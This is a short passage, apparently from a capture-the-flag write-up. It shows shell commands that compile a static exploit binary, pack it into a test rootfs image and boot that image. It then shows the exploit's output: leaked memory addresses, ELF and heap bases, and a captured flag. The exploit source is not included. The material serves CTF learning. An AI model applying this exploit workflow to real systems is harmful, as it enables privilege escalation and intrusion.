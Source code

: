 {% highlight bash %}
[scsi] musl-gcc -s -static -o exploit-min exploit-min.c && cp rootfs.cpio.bak rootfs.cpio && echo exploit-min | cpio -A -H newc -ov -F rootfs.cpio
[scsi] ls -la exploit-min
-rwxr-xr-x 1 vagrant vagrant 25856 Nov 25 18:55 exploit-min
[scsi] ./start.sh
...
/ # /exploit-min
CTF_req_head VA: 0x7fb368839000
CTF_req_head PA: 0x26d1000
elf : 0x560ab77ee000
heap: 0x7fc398068a00
flagflagflag===FLAGFLAGFLAG
/ #
{% endhighlight %}